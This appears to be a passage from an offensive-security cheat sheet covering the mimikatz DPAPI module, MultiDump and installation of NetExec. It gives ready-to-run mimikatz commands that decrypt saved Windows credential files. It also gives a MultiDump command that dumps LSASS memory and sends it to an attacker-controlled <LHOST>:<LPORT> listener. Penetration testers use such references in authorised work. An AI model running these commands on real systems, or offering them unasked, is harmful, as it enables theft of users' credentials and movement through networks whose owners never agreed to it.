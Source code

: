 ### Data Protection API (DPAPI) Decryption

> https://github.com/gentilkiwi/mimikatz/wiki/howto-~-credential-manager-saved-credentials

#### rpc

```console
mimikatz # dpapi::masterkey /in:"%appdata%\Microsoft\Protect\S-1-5-21-1199398058-4196589450-691661856-1107\191d3f9d-7959-4b4d-a520-a444853c47eb" /rpc
```

```console
mimikatz # dpapi::cache
```

```console
mimikatz # dpapi::cred /in:"C:\Users\<USERNAME>\AppData\Roaming\Microsoft\Credentials\84F1CAEEBF466550F4967858F9353FB4"
```

## MultiDump

> https://github.com/Xre0uS/MultiDump

```console
$ python3 MultiDumpHandler.py -r <LPORT>
```

```cmd
PS C:\> .\MultiDump.exe --procdump -r <LHOST>:<LPORT>
```

## NetExec

> https://github.com/Pennyw0rth/NetExec

> https://www.netexec.wiki/

### Installation

```console
$ sudo apt-get install netexec
```

or

```console
$ sudo apt-get install pipx git
$ pipx ensurepath
$ pipx install git+https://github.com/Pennyw0rth/NetExec
```

### Installation via Poetry

```console
$ sudo apt-get install -y libssl-dev libffi-dev python-dev-is-python3 build-essential
$ git clone https://github.com/Pennyw0rth/NetExec
$ cd NetExec
$ poetry install
$ poetry run NetExec
```
